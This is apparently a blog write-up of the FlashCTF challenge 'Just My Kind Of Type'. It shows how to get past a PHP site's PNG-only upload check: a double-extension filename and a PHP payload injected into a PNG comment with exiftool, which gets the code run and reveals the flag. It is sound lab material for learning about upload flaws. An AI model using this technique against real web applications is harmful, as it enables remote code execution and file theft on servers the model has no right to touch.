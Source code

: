 ```yaml
---
layout: post
title: "FlashCTF - Just My Kind Of Type"
date: 2022-09-15
categories: CTF
permalink: /FlashCTF
---
```


If it passed the tests, it's good, right? Thankfully, QA wrote some basic security requirements this time, so the developers had to go back and add some protections around file uploads.

The AppSec team doesn't think this new app is as secure as it should be. Can you check it out? You can access the website here.

The flag is located at /flag.txt on the file system.

XXX

So, based upon the challenge desciption, we know this challenge is going to involve uploading a file, and the only place to do so on the website is via the profile editor. We can choose to upload a new profile image. We can see the website is running php based on the url (http://host1.metaproblems.com:4800/edit_profile.php), so my first thought is to just attempt to upload a simple php script to display the file `flag.txt`. I put the following into a file named `flag.php` and attempt to upload it:
```
<?php
echo file_get_contents("/flag.txt");
?>
```

Of course, this fails with the error "Oh snap! Upload failed! Error: Only PNG files are allowed!".

Next we'll try a simple filename bypass by renaming the file to flag.php.png, but this fails with the error "Oh snap! Upload failed! Error: Only PNG files with a valid size are allowed!". I found a png file on my harddrive from a previous CTF, and attempted to insert the php code after the headers and re-upload, and this time I got a more interesting error.

```
"Warning: getimagesize(): PNG file corrupted by ASCII conversion in /var/www/html/edit_profile.php on line 23"
```

Now we know that the website is using the php function `getimagesize()` to verify the file type. I did some searching for getimagesize() bypasses, and found that you can inject php code into the comment of a png file and then get the website to execute it. We can do this using exiftool.

```
$ exiftool -Comment='<?php echo file_get_contents("/flag.txt"); ?>' flag.png

$ exiftool flag.png
ExifTool Version Number         : 12.40
File Name                       : flag.png
Directory                       : .
File Size                       : 65 KiB
File Modification Date/Time     : 2022:09:10 00:08:02-04:00
File Access Date/Time           : 2022:09:10 00:08:02-04:00
File Inode Change Date/Time     : 2022:09:10 00:08:02-04:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 1127
Image Height                    : 350
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
SRGB Rendering                  : Perceptual
Gamma                           : 2.2
Pixels Per Unit X               : 5669
Pixels Per Unit Y               : 5669
Pixel Units                     : meters
Comment                         : <?php echo file_get_contents("/flag.txt"); ?>
Image Size                      : 1127x350
Megapixels                      : 0.394
```

We rename our file to `flag.php.png` and upload. This time, instead of being greeted with an error, we are greeted with "Awesome! You just uploaded a new profile picture :)". Now we can browse back over to "View Your Profile" and see that no image is displayed. Using the Inspect function in our browser, we can see that the profile image is now pointing to `uploads/profile_images/uUhk3yfmoO/flag.php.png`. We can go directly to this file and be greeted with our flag hidden inside of the PNG data!

```
...Ys%%IR$�5tEXtCommentMetaCTF{your_php_enabled_image/png_is_the_content_to_my_type} �(O��IDATx^�...
```

